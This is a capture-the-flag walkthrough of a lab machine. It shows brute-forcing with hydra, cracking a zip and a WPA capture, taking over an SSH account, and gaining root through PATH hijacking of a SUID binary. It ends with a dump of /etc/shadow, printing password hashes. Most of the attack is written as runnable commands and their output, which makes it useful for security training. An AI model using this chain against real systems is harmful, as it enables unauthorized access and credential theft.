## hydra

I have users but I don't have passwords.

### cewl

```shell
cewl http://$RHOST/ --with-numbers -d 4 -e >> cewl.txt

```

```shell
wc cewl.txt
 39  45 329 cewl.txt

```

### hydra SSH

SSH is running on port 2525

```shell
hydra -L users.txt -P cewl.txt $RHOST ssh -s 2525
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-02 08:35:22
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 234 login tries (l:6/p:39), ~15 tries per task
[DATA] attacking ssh://192.168.56.86:2525/
1 of 1 target completed, 0 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-02 08:35:52

```

### hydra smb

```shell
hydra -L users.txt -P cewl.txt $RHOST smb
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-02 08:36:01
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 234 login tries (l:6/p:39), ~234 tries per task
[DATA] attacking smb://192.168.56.86:445/
[445][smb] Host: 192.168.56.86 Account: blackjax Error: Invalid account (Anonymous success)
[445][smb] Host: 192.168.56.86 Account: nitin Error: Invalid account (Anonymous success)
[445][smb] Host: 192.168.56.86 Account: NITIN Error: Invalid account (Anonymous success)
[445][smb] Host: 192.168.56.86 Account: sagar Error: Invalid account (Anonymous success)
[445][smb] Host: 192.168.56.86 Account: anonymous Error: Invalid account (Anonymous success)
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-02 08:36:03

```

## Attacking SMB

After I couldn't find a pair of credentials, `http://192.168.56.86/img/news.png` suggests something.



```shell
smbclient //$RHOST/nitin -U nitin
Enter WORKGROUP\nitin's password:
tree connect failed: NT_STATUS_BAD_NETWORK_NAME

```

```shell
smbclient //$RHOST/blackjax -U blackjax
Enter WORKGROUP\blackjax's password:
tree connect failed: NT_STATUS_BAD_NETWORK_NAME

```

```shell
smbclient //$RHOST/smb -U smb
Enter WORKGROUP\smb's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Nov  4 17:20:37 2019
  ..                                  D        0  Mon Nov  4 17:07:28 2019
  main.txt                            N       10  Mon Nov  4 17:15:38 2019
  safe.zip                            N  3424907  Mon Nov  4 17:20:37 2019

                9204224 blocks of size 1024. 6710812 blocks available
smb: \> get main.txt
getting file \main.txt of size 10 as main.txt (1.1 KiloBytes/sec) (average 1.1 KiloBytes/sec)
smb: \> get safe.zip
getting file \safe.zip of size 3424907 as safe.zip (44008.3 KiloBytes/sec) (average 39348.8 KiloBytes/sec)
smb: \> exit

```

```shell
ls
main.txt  safe.zip

```

```shell
cat main.txt
helo

```

## Cracking safe

```shell
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u safe.zip


PASSWORD FOUND!!!!: pw == hacker1

```

```shell
unzip safe.zip -d safe
Archive:  safe.zip
[safe.zip] secret.jpg password:
  inflating: safe/secret.jpg
  inflating: safe/user.cap

```

```shell
cd safe

```

```shell
ls -la
total 6832
drwxr-xr-x 2 f0c1s f0c1s    4096 Jan  2 12:53 .
drwxr-xr-x 3 f0c1s f0c1s    4096 Jan  2 12:53 ..
-rw-r--r-- 1 f0c1s f0c1s   62471 Aug 15  2018 secret.jpg
-rw-r--r-- 1 f0c1s f0c1s 6920971 Nov  4  2019 user.cap

```

```shell
exiftool secret.jpg
ExifTool Version Number         : 12.36
File Name                       : secret.jpg
Directory                       : .
File Size                       : 61 KiB
File Modification Date/Time     : 2018:08:15 01:29:03+05:30
File Access Date/Time           : 2019:11:04 12:51:43+05:30
File Inode Change Date/Time     : 2022:01:02 12:53:51+05:30
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 1200
Image Height                    : 675
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1200x675
Megapixels                      : 0.810

```

```shell
file user.cap
user.cap: pcap capture file, microsecond ts (little-endian) - version 2.4 (802.11, capture length 65535)

```

```shell
aircrack-ng -w /usr/share/wordlists/rockyou.txt user.cap

                               Aircrack-ng 1.6

      [00:00:00] 1579/10303727 keys tested (5032.91 k/s)

      Time left: 34 minutes, 6 seconds                           0.02%

                           KEY FOUND! [ snowflake ]


      Master Key     : 88 D4 8C 29 79 BF DF 88 B4 14 0F 5A F3 E8 FB FB
                       59 95 91 7F ED 3E 93 DB 2A C9 BA FB EE 07 EA 62

      Transient Key  : BA 24 7C 42 0F D4 90 00 5D E2 16 CF B2 C8 E5 2C
                       B9 27 97 B0 62 A5 37 22 AE EF F2 8E 46 20 60 60
                       38 D4 D0 12 B3 92 37 77 CB 78 B4 E3 A6 6E E2 36
                       80 C9 97 EE 9A 7E 3F B8 45 1F 89 42 F4 0C 20 61

      EAPOL HMAC     : ED B5 F7 D9 56 98 B0 5E 25 7D 86 08 C4 D4 02 3D
```



## cracking SSH

```shell
cat users.txt
smb
blackjax
nitin
NITIN
sagar
anonymous

```

```shell
cat passwords.txt
hacker1
snowflake

```

```shell
hydra -L users.txt -P passwords.txt $RHOST ssh -s 2525
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-02 13:00:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 12 tasks per 1 server, overall 12 tasks, 12 login tries (l:6/p:2), ~1 try per task
[DATA] attacking ssh://192.168.56.86:2525/
[2525][ssh] host: 192.168.56.86   login: blackjax   password: snowflake
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-02 13:00:59

```



Credentials: blackjax:snowflake

## user blackjax

```shell
ssh blackjax@$RHOST -p 2525
The authenticity of host '[192.168.56.86]:2525 ([192.168.56.86]:2525)' can't be established.
ED25519 key fingerprint is SHA256:1l05HpfviqAHWEW02NNLxk4zhf2Ne1fS5QnCd7hTGQA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.56.86]:2525' (ED25519) to the list of known hosts.
blackjax@192.168.56.86's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

151 packages can be updated.
100 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Mon Nov  4 15:37:42 2019 from 192.168.1.50
$ id
uid=1001(blackjax) gid=1001(blackjax) groups=1001(blackjax)
$ whoami
blackjax
$ cat /etc/passwd | grep home
syslog:x:104:108::/home/syslog:/bin/false
sagar:x:1000:1000:sagar,,,:/home/sagar:/bin/bash
blackjax:x:1001:1001::/home/blackjax:/bin/sh
smb:x:1002:1002::/home/smb/smb:/usr/sbin/nolgin

```

```shell
$ sudo -l
[sudo] password for blackjax:
Sorry, user blackjax may not run sudo on nitin.168.1.7.
```

```shell
bash -i

blackjax@nitin:~$ pwd
/home/blackjax
blackjax@nitin:~$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Nov  4  2019 .
drwxr-xr-x 5 root root 4096 Nov  4  2019 ..
-rw-r--r-- 1 root root  586 Nov  4  2019 user.txt
blackjax@nitin:~$ cat user.txt
  _    _  _____ ______ _____        ______ _               _____
 | |  | |/ ____|  ____|  __ \      |  ____| |        /\   / ____|
 | |  | | (___ | |__  | |__) |_____| |__  | |       /  \ | |  __
 | |  | |\___ \|  __| |  _  /______|  __| | |      / /\ \| | |_ |
 | |__| |____) | |____| | \ \      | |    | |____ / ____ \ |__| |
  \____/|_____/|______|_|  \_\     |_|    |______/_/    \_\_____|


Go To Root.

MD5-HASH : f589a6959f3e04037eb2b3eb0ff726ac
blackjax@nitin:~$

## SUID binaries
blackjax@nitin:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/i386-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/at
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/netscan
/usr/bin/sudo
/bin/ping6
/bin/fusermount
/bin/mount
/bin/su
/bin/ping
/bin/umount
/bin/ntfs-3g
```

### /usr/bin/netscan sticks out

```shell
blackjax@nitin:/var/www/html$ /usr/bin/netscan
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:2525            0.0.0.0:*               LISTEN      997/sshd
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      870/smbd
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      995/mysqld
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      870/smbd
tcp        0    188 192.168.56.86:2525      192.168.56.70:41146     ESTABLISHED 5066/sshd: blackjax
tcp6       0      0 :::2525                 :::*                    LISTEN      997/sshd
tcp6       0      0 :::445                  :::*                    LISTEN      870/smbd
tcp6       0      0 :::139                  :::*                    LISTEN      870/smbd
tcp6       0      0 :::80                   :::*                    LISTEN      1144/apache2
```

This looks like netstat or ss.

```shell
blackjax@nitin:/var/www/html$ strings /usr/bin/netscan
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
QVhk
UWVS
t$,U
[^_]
netstat -antp
;*2$"(
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.11) 5.4.0 20160609
crtstuff.c
__JCR_LIST__
deregister_tm_clones
__do_global_dtors_aux
completed.7209
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
pingshell.c
__FRAME_END__
__JCR_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
__x86.get_pc_thunk.bx
_edata
__data_start
setgid@@GLIBC_2.0
system@@GLIBC_2.0
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_start_main@@GLIBC_2.0
__libc_csu_init
_fp_hw
__bss_start
main
setuid@@GLIBC_2.0
_Jv_RegisterClasses
__TMC_END__
_ITM_registerTMCloneTable
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.jcr
.dynamic
.got.plt
.data
.bss
.comment

```

Too long didn't read.

```shell
blackjax@nitin:/var/www/html$ strings /usr/bin/netscan | grep "netstat\|ss"
netstat -antp
__bss_start
_Jv_RegisterClasses
.bss

```

This looks like the "netstat -antp" is being used. It also seems that it can be abused.

### confirm `nestat -antp`


```shell
blackjax@nitin:/var/www/html$ netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:2525            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -
tcp        0      0 192.168.56.86:2525      192.168.56.70:41146     ESTABLISHED -
tcp6       0      0 :::2525                 :::*                    LISTEN      -
tcp6       0      0 :::445                  :::*                    LISTEN      -
tcp6       0      0 :::139                  :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -

blackjax@nitin:/var/www/html$ ls -la /usr/bin/netscan
-rwsr-xr-x 1 root root 7432 Nov  4  2019 /usr/bin/netscan

```

The string "(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)" is due to netstat not being run as sudo,
where as netscan is SUID binary.

### Abusing path

```shell
blackjax@nitin:/var/www/html$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

blackjax@nitin:/var/www/html$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
blackjax@nitin:/var/www/html$ cd
blackjax@nitin:~$ pwd
/home/blackjax
blackjax@nitin:~$ export PATH=/home/blackjax:$PATH
blackjax@nitin:~$ vim netstat
blackjax@nitin:~$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Nov  4  2019 .
drwxr-xr-x 5 root root 4096 Nov  4  2019 ..
-rw-r--r-- 1 root root  586 Nov  4  2019 user.txt
blackjax@nitin:~$ cd /tmp
blackjax@nitin:/tmp$ export PATH=/tmp:$PATH
blackjax@nitin:/tmp$ echo "/bin/bash -pli" >> netstat
blackjax@nitin:/tmp$ chmod +x netstat
blackjax@nitin:/tmp$ /usr/bin/netscan
root@nitin:/tmp# whoami
root
root@nitin:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(blackjax)
root@nitin:/tmp# hostname
nitin
root@nitin:/tmp# date
Sun Jan  2 13:16:07 IST 2022
```

## Post Root

### /etc/shadow

```shell
root@nitin:/tmp# cat /etc/shadow
root:$6$qYRmXXqd$XU/PPdAYvk0OeoqwkESgbXHF1B2Yql7BjyoKsruFdku0/sP4AUvxWjq03j9rbublYMXouYHhtGo346nVD3H8F/:18204:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
lxd:*:18204:0:99999:7:::
messagebus:*:18204:0:99999:7:::
uuidd:*:18204:0:99999:7:::
dnsmasq:*:18204:0:99999:7:::
sshd:*:18204:0:99999:7:::
sagar:$6$E/v8EEVB$JmnHael6bS8/71zLgBlq5xypekWLjlq1utZ7Xjgq8FxzAeLBBt/y99P5Lvwl9VDEGKNBaQSt5jvJDjoYywKrm0:18204:0:99999:7:::
mysql:!:18204:0:99999:7:::
blackjax:$6$obHVSP0q$Z07U2.XC8B/P2wKOaEu5pqM9fof9SJzs.GRwNyzq/eCcfFCXSmeKYtjXhaRbuuixF8ELc/V3vMzuHLn0iDlbI/:18204:0:99999:7:::
smb:!:18204:0:99999:7:::
```

```shell
root@nitin:/tmp# cd
root@nitin:~# cd /root
root@nitin:/root#
root@nitin:/root# ls -la
total 36
drwx------  3 root root 4096 Nov  4  2019 .
drwxr-xr-x 22 root root 4096 Nov  4  2019 ..
-rw-------  1 root root 2526 Nov  4  2019 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Nov  4  2019 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  505 Nov  4  2019 root.txt
-rw-------  1 root root 4996 Nov  4  2019 .viminfo
root@nitin:/root# cat root.txt
    ____  ____  ____  ______   ________    ___   ______
   / __ \/ __ \/ __ \/_  __/  / ____/ /   /   | / ____/
  / /_/ / / / / / / / / /    / /_  / /   / /| |/ / __
 / _, _/ /_/ / /_/ / / /    / __/ / /___/ ___ / /_/ /
/_/ |_|\____/\____/ /_/____/_/   /_____/_/  |_\____/
                     /_____/
Conguratulation..

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Contact : https://www.linkedin.com/in/rahulgehlaut/

WebSite : jameshacker.me
```


Rooted.

## How to hack

1. Enumerate SMB
2. Get and Crack safe
3. SSH
4. Find user flag
5. Find the binary that sticks out
6. Abuse PATH
7. Be Root.

</body>
</html>